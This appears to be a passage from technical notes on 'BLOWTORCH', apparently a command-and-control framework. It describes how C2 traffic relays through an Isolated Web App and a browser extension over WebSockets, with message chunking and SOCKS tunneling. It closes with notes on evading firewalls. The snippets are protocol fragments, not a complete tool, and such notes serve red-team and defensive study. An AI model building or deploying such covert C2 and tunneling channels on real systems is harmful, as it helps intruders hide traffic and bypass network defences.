 **C2 to IWA Protocol**:
BLOWTORCH uses WebSocket subprotocol with token authentication:
```javascript
const ws = new WebSocket(url.toString(), [`token.${this.relayToken}`]);
```

**IWA to Extension Protocol**:
FirecrackerWebSocketServer implements standard WebSocket handshake:
```javascript
// WebSocket handshake with proper Sec-WebSocket-Accept
const acceptKey = await this.generateAcceptKey(clientKey);
const response = [
    'HTTP/1.1 101 Switching Protocols',
    'Upgrade: websocket',
    'Connection: Upgrade',
    `Sec-WebSocket-Accept: ${acceptKey}`
].join('\r\n');
```

#### Message Chunking Support

For large data transfers, BLOWTORCH implements chunking:
```javascript
// Chunk start message
{type: 'chunk_start', chunkId: 'unique_id', totalSize: 1024000}

// Chunk data messages  
{type: 'chunk_data', chunkId: 'unique_id', chunkNum: 0, data: 'base64_data'}

// Chunk end message
{type: 'chunk_end', chunkId: 'unique_id', totalChunks: 10}
```

#### SOCKS Tunneling Protocol

**SOCKS Connection Multiplexing**:
```javascript
// Connection request to C2
{type: 'connect', connectionId: 'conn_123', targetHost: 'example.com', targetPort: 443}

// Data forwarding
{type: 'data', connectionId: 'conn_123', data: 'base64_encoded_payload'}

// Connection close
{type: 'close', connectionId: 'conn_123'}
```

### Direct Socket Security Implications

#### Bypassing Network Security Controls

**Firewall Evasion**:
- SOCKS proxy runs on high ports (often > 1024) that may be less monitored
- Traffic originates from browser process with legitimate network access
- Can tunnel arbitrary protocols through HTTP/WebSocket connections
